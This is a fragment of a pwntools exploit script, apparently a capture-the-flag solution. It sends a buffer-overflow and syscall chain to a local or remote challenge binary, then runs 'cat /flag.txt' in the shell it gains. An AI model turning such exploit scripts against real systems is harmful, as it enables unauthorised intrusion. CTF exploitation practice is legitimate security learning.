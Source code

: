 ```python

    p.recvuntil(b">>>")
    p.sendline(chain)


def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(args.HOST,args.PORT)
    else:
        return process(e.path)


p = start()

setup_overflow()
syscall_chain()

pause(1)
p.sendline(b'cat /flag.txt')

p.interactive()

```
